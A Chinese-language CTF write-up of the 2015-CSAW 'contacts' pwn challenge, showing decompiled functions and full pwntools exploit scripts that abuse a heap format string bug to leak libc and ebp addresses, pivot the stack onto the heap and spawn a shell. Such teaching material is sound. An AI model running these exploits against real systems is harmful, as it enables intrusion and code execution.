

## 前言
本练习以2015-CSAW-contacts中的contacts为例进行介绍。格式化字符串漏洞在堆空间上，非栈。[题目链接](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/fmtstr/2015-CSAW-contacts)
## 1. 题目信息
安全机制


题目代码


**create_contact**
input_name ,输入名字
```
char *__cdecl input_name(int a1)
{
  char *result; // eax

  printf("\tName: ");
  fgets((a1 + 8), 64, stdin);
  result = strchr((a1 + 8), 10);
  if ( result )
  {
    result = strchr((a1 + 8), 10);
    *result = 0;
  }
  return result;
}
```
input_number ，创建堆空间，并输入数据
```
char *__cdecl input_number(int a1)
{
  char *result; // eax

  printf("[DEBUG] Haven't written a parser for phone numbers; ");
  puts("You have 10 numbers");
  *(a1 + 4) = malloc(0xBu);
  if ( !*(a1 + 4) )
    exit(1);
  printf("\tEnter Phone No: ");
  fgets(*(a1 + 4), 11, stdin);
  result = strchr(*(a1 + 4), 10);
  if ( result )
  {
    result = strchr(*(a1 + 4), 10);
    *result = 0;
  }
  return result;
}
```
input_description  输入要描述的长度，申请堆空间，输入描述
```
char *__cdecl input_description(int a1)
{
  char *result; // eax
  int v2[3]; // [esp+1Ch] [ebp-Ch] BYREF

  printf("\tLength of description: ");
  __isoc99_scanf("%u%*c", v2);
  *(a1 + 72) = v2[0];
  *a1 = malloc(v2[0] + 1);
  if ( !*a1 )
    exit(1);
  printf("\tEnter description:\n\t\t");
  fgets(*a1, v2[0] + 1, stdin);
  result = *a1;
  if ( !*a1 )
    exit(1);
  return result;
}
```
**remove_contact**
根据输入的名字，删除信息，并释放堆内存。
```
unsigned int __cdecl remove_contact(int a1)
{
  int i; // [esp+18h] [ebp-50h]
  char s[64]; // [esp+1Ch] [ebp-4Ch] BYREF
  unsigned int v5; // [esp+5Ch] [ebp-Ch]

  v5 = __readgsdword(0x14u);
  printf("Name to remove? ");
  fgets(s, 64, stdin);
  if ( strchr(s, 10) )
    *strchr(s, 10) = 0;
  for ( i = 0; i <= 9; ++i )
  {
    if ( *(a1 + 76) && !strcmp((a1 + 8), s) )
    {
      memset((a1 + 8), 0, 0x40u);
      free(*a1);
      *(a1 + 72) = 0;
      *(a1 + 76) = 0;
      --dword_804B088;
      printf("Removed: %s\n\n", s);
      return __readgsdword(0x14u) ^ v5;
    }
    a1 += 80;
  }
  puts("Name not found dude");
  return __readgsdword(0x14u) ^ v5;
}
```
**display_contact**
```
int __cdecl print_out(int a1, int a2, int a3, char *format)
{
  printf("\tName: %s\n", a1);
  printf("\tLength %u\n", a2);
  printf("\tPhone #: %s\n", a3);
  printf("\tDescription: ");
  return printf(format);
}
```
最后一行的格式化字符串存在漏洞。但纵观整题，输入和输出的内存都在堆上，非栈空间。
## 2. 解题过程
### 2.1 思路分析
对于格式化字符串漏洞，常规利用都是通过劫持got表或者控制返回地址来控制程序流程。但这里却不可行。



无法找到栈上可以泄露数据的偏移，无法泄露有效的可控地址信息。因为数据额输入和输出都在堆上。也就是说我们输入的payload会出现在堆内存的某个地址。那如果我们把eip指向堆上的某个地址不就行了么。
因为存在格式化漏洞可以改写任意地址，所以可以采取把栈迁移到堆上去。之前在在栈迁移博客中提到迁移栈需要两次ret。当前ebp保存的是display_contact函数的ebp，返回时执行一次ret。但还有一个选项5是main函数的ret。这样把ebp地址覆盖为system-4的地址。这个system-4的地址是指向堆上的数据，可控。
思路如下：
1. 格式化字符串泄露system的地址以及binsh地址
2. 将system地址以及bin_sh写入到栈上
3. 获取ebp的地址以及description在堆上的位置，通过格式化自字符串将其泄露
4. 通过格式化字符串将其当前ebp修改为system-4的地址
5. display_contact 返回一次，以及main函数返回一次，触发执行payload


### 2.1 泄露__libc_start_main地址
printf的格式化字符串漏洞，在其断点处可以看到打印的信息。

偏移31处为和__libc_start_main有关的地址。减去247即为__libc_start_main运行时的虚拟地址。然后即可获取相应的libc基址以及system地址。
```
from pwn import*

context.log_level ='debug'
io = process('./contacts')
io.recv()
def create(name, phone, number, payload):
    print('$$$$$$$$$$$$$$$$$$$$$$$$')
    io.sendline('1')
    io.recvuntil('Name:')
    io.sendline(name)
    io.recvuntil('Enter Phone No:')
    io.sendline(phone)
    io.recvuntil('Length of description:')
    io.sendline(number)
    io.recvuntil('Enter description:')
    io.sendline(payload)
    io.recv()

def display():
    io.sendline('4')
    data = io.recvuntil('aaaa')
    return data
create('zzw', '234324234', '200',b'%31$paaaa')
data = display()
__libc_start_main_address = int(data[-12:-4],16) -247

print('[*] __libc_start_main_address is :', hex(__libc_start_main_address))
```

### 2.2 计算system和/bin/sh地址
通过libc-database或者LibcSearcher进行查询
```
print('[*] __libc_start_main_address is :', hex(__libc_start_main_address))
libc = LibcSearcher('__libc_start_main', __libc_start_main_address)
__libc_start_main_offset = libc.dump('__libc_start_main')
print('__libc_start_main_offset', __libc_start_main_offset )
system_offset = libc.dump('system')
print('system_offset', system_offset)
bin_sh = libc.dump('str_bin_sh')
print('str_bin_sh', bin_sh)
```

或者使用libc-databases查询，这个库需要下载到本地，查询比较准确

这样就获取到需要的各种信息
### 2.3 泄露ebp地址以及堆上description地址


分别在三个函数体内部下断点，查看ebp
第一处 ：EBP: 0xffffcf08 --> 0x0 
第二处 : EBP: 0xffffced8 --> 0xffffcf08 
第三处 ：EBP: 0xffffcea8 --> 0xffffced8 --> 0xffffcf08 --> 0x0 
保留的是前一函数栈的ebp，即old_ebp
0xffffcf08    lib_start_main的ebp
0xffffced8    main函数ebp
0xffffcea8    display_contact函数的ebp
这里需要将0xffffcea8指向的0xffffced8的值覆盖。可以通过格式化字符串实现，这样两次ret后可实现栈迁移。
查看在栈上的偏移。将其泄露出来。

干脆在第一次泄露_lib_start_main时泄露，改一下之前的脚本
```
from pwn import*
from LibcSearcher import LibcSearcher
context.log_level ='debug'
io = process('./contacts')
io.recv()
def create(name, phone, number, payload):
    print('$$$$$$$$$$$$$$$$$$$$$$$$')
    io.sendline('1')
    io.recvuntil('Name:')
    io.sendline(name)
    io.recvuntil('Enter Phone No:')
    io.sendline(phone)
    io.recvuntil('Length of description:')
    io.sendline(number)
    io.recvuntil('Enter description:')
    io.sendline(payload)
    io.recv()

def display():
    io.sendline('4')
    data = io.recvuntil('aaaa')
    return data

create('zzw', '234324234', '200',b'%6$p.%11$p.%31$p.aaaa')
data = display().split(b"Description:")[1].split(b'.')
ebp_addr = int(data[0],16)
heap_addr = int(data[1],16)
__libc_start_main_address = int(data[2],16)
print(data[0],data[1],data[2])
print("[*] ebp addr is ", hex(ebp_addr))
print("[*] heap_addr is ", hex(heap_addr))
print("[*] start_main is ",hex(__libc_start_main_address))

__libc_start_main_address  -= 247

offset_system = 0x0003a950
offset_str_bin_sh = 0x15912b
offset___libc_start_main = 0x00018550
libc_base = __libc_start_main_address -offset___libc_start_main

system_address =libc_base + offset_system
bin_sh = libc_base + offset_str_bin_sh
print('[*] __libc_start_main_address is', hex(__libc_start_main_address))
print('[*] libc base is', hex(libc_base))
print('[*] system_address is', hex(system_address))
print('[*] bin_sh is', hex(bin_sh))
```

### 2.4 修改ebp为堆上shellcode地址
ebp地址内容修改为堆上description执行地址。
payload=fmtstr_payload(6,{ebp_addr:heap_addr-4})
print payload
### 2.5 exp代码
```
from pwn import*
from LibcSearcher import LibcSearcher
#context.log_level ='debug'
io = process('./contacts')
io.recv()
def create(name, phone, number, payload):
    print('$$$$$$$$$$$$$$$$$$$$$$$$')
    io.sendline('1')
    io.recvuntil('Name:')
    io.sendline(name)
    io.recvuntil('Enter Phone No:')
    io.sendline(phone)
    io.recvuntil('Length of description:')
    io.sendline(number)
    io.recvuntil('Enter description:')
    io.sendline(payload)
    io.recv()

def display():
    io.sendline('4')
    


create('111', '234324234', '200',b'%11$p.%6$p.%31$p.aaaa')
display()
data = io.recvuntil('aaaa')
print(data)
data = data.split(b"Description:")[1].split(b'.')
ebp_addr = int(data[0],16)
heap_addr = int(data[1],16)
__libc_start_main_address = int(data[2],16)
print(data[0],data[1],data[2])
print("[*] ebp addr is ", hex(ebp_addr))
print("[*] heap_addr is ", hex(heap_addr))
print("[*] start_main is ",hex(__libc_start_main_address))

__libc_start_main_address  -= 247

offset_system = 0x0003a950
offset_str_bin_sh = 0x15912b
offset___libc_start_main = 0x00018550
libc_base = __libc_start_main_address -offset___libc_start_main

system_address =libc_base + offset_system
bin_sh = libc_base + offset_str_bin_sh
print('[*] __libc_start_main_address is', hex(__libc_start_main_address))
print('[*] libc base is', hex(libc_base))
print('[*] system_address is', hex(system_address))
print('[*] bin_sh is', hex(bin_sh))

payload = flat([system_address,0xdeadbeef,bin_sh,'aaaa'])
create('222', '234324234', '200',payload)
display()
io.recv()
'''
part1 = (heap_addr - 4) / 2
part2 = heap_addr - 4 - part1
payload = '%' + str(part1) + 'x%' + str(part2) + 'x%6$n'
'''
payload=fmtstr_payload(6,{ebp_addr:heap_addr-4})
create('333', '234324234', '200',payload)
display()
io.recvuntil('>>> ')
io.sendline('5')
io.interactive()
```
该exp并不是一个稳定的shell。因为要打印很多字节。无法采取逐字节修改的方式，因为堆地址变化无法确定。